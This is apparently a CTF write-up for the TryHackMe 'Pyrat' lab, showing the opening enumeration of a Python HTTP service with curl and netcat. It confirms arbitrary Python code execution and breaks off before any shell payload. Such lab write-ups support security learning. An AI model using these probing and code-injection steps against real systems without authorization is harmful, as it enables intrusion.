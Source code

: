# TryHackMe: Pyrat Challenge

Room URL: https://tryhackme.com/room/pyrat

## Objective

There is an open HTTP server that has a python code execution vulnerability. Exploit this vulnerability to gain a shell to target machine, search for a credentials, and try to escalate your privileges.

## Enumeration

Starting with the enumeration. 

<img width="1220" height="549" alt="image" src="https://github.com/user-attachments/assets/a3a2b3e2-57e2-4634-ba60-c009fd764c15" />


```bash
─$ curl -I http://10.10.74.250:8000
HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.11.2
Date: Mon Jul 21 08:50:52  2025
Content-type: text/html; charset=utf-8
Content-Length: 27

─$ curl -s http://10.10.74.250:8000
Try a more basic connection  
```

The web server is running a simple Python-based interface. The HTTP response provides a hint that a basic connection attempt—such as using Netcat—might reveal more information.
```bash
$ nc 10.10.74.250  8000
echo hello
invalid syntax (<string>, line 1)
whoami
name 'whoami' is not defined
```

This error confirms to us that we are in a Python environment. 

```bash
nc 10.10.74.250  8000
print("hello")
hello
import sys

print(sys.version)
3.8.10 (default, Mar 18 2025, 20:04:55) 
[GCC 9.4.0]


```
This means we can do a Python code injection to gain a shell.

